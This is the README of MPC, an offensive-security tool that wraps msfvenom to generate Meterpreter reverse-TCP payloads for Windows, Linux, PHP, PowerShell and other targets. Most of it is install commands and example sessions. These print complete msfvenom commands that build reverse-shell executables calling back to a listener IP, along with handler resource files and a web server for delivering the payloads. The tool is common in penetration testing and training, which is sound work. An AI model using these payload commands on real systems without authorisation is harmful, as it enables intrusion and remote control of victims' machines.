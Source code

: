A **quick** way to generate various "basic" Meterpreter payloads via msfvenom (part of the Metasploit framework).

![Msfvenom Payload Creator (MPC)](https://i.imgur.com/HfNQ4pr.png)

- - -

## About

Msfvenom Payload Creator (MPC) is a wrapper to generate multiple types of payloads, based on users choice. The idea is to be as **simple as possible** (**only requiring one input**) to produce their payload.

**Fully automating** msfvenom & Metasploit is the end goal _(well as to be be able to automate MPC itself)_.
The rest is to make the user's life as **easy as possible** (e.g. **IP selection menu**, **msfconsole resource file/commands** and a **quick web server** etc).

The only necessary input from the user should be **defining the payload** they want by either the **platform** (e.g. `windows`), or the **file extension** they wish the payload to have (e.g. `exe`).

_Note: This will **not** try to bypass any anti-virus solutions._

## Install

* Designed for **Kali Linux 1.1.0a+** & **Metasploit v4.11+** _(nothing else has been tested)_.

```
curl -k -L "https://raw.githubusercontent.com/g0tmi1k/mpc/master/mpc.sh" > /usr/bin/mpc
chmod +x /usr/bin/mpc
mpc
```

## Help

``` bash
root@kali:~# mpc
 [*] Msfvenom Payload Creator (MPC v1.1)

 [i] ./mpc.sh <TYPE> (<DOMAIN/IP>) (<PORT>)
 [i] <TYPE>: (All reverse TCP payloads)
 [i]   + ASP (meterpreter)
 [i]   + ASPX (meterpreter)
 [i]   + Bash [.sh] (shell)
 [i]   + Java [.jsp] (shell)
 [i]   + Linux [.elf] (meterpreter)
 [i]   + OSX [.macho] (shell)
 [i]   + Perl [.pl] (shell)
 [i]   + PHP (meterpreter)
 [i]   + Powershell [.ps1] (meterpreter)
 [i]   + Python [.py] (meterpreter)
 [i]   + Tomcat [.war] (shell)
 [i]   + Windows [.exe] (meterpreter)
 [i] Missing <DOMAIN/IP> will default to IP menu
 [i] Missing <PORT> will default to 443
root@kali:~#
```

## Example \#1 (Linux - Fully Automated With IP And Port)

```bash
root@kali:/var/www# bash mpc.sh linux 192.168.155.175 4444
 [*] Msfvenom Payload Creator (MPC v1.1)
 [i]   IP: 192.168.155.175
 [i] PORT: 4444
 [i] TYPE: linux (linux/x86/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf --platform linux -a x86 -e generic/none LHOST=192.168.155.175 LPORT=4444 -o /root/linux-meterpreter.elf
 [i] linux meterpreter created: '/root/linux-meterpreter.elf'
 [i] MSF handler file: '/root/linux-meterpreter-elf.rc'   (msfconsole -q -r /root/linux-meterpreter-elf.rc)
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:/var/www#
```

## Example \#2 (Windows - Fully Automated With Interface)

```bash
root@kali:~# ./mpc.sh exe eth0
 [*] Msfvenom Payload Creator (MPC v1.1)
 [i]   IP: 192.168.103.241
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe --platform windows -a x86 -e generic/none LHOST=192.168.103.241 LPORT=443 -o /root/windows-meterpreter.exe
 [i] windows meterpreter created: '/root/windows-meterpreter.exe'
 [i] MSF handler file: '/root/windows-meterpreter-exe.rc'   (msfconsole -q -r /root/windows-meterpreter-exe.rc)
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

## Example \#3 (PHP - Interactive)

```bash
root@kali:~# bash mpc.sh php
 [*] Msfvenom Payload Creator (MPC v1.1)

 [i] Use which interface/IP address?:
 [i]   1.) eth0 - 192.168.103.140
 [i]   2.) eth1 - 192.168.155.175
 [i]   3.) lo - 127.0.0.1
 [?] Select 1-3, interface or IP address: 2

 [i]   IP: 192.168.155.175
 [i] PORT: 443
 [i] TYPE: php (php/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p php/meterpreter/reverse_tcp -f raw --platform php -e generic/none -a php LHOST=192.168.155.175 LPORT=443 -o /root/php-meterpreter.php
 [i] php meterpreter created: '/root/php-meterpreter.php'
 [i] MSF handler file: '/root/php-meterpreter-php.rc'   (msfconsole -q -r /root/php-meterpreter-php.rc)
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

## To-Do List

* Cleaner command line arguments (e.g. `-ip 127.0.0.1`, `-v` etc)
* Display file stats (e.g. file, size, md5/sha1) _Commands are in, just commented out._
* Support different payloads (e.g. `standard shells`/`nc` & `reverse_http`/`reverse_https`, `bind` etc)
* x64 payloads
* _...IPv6 support?_
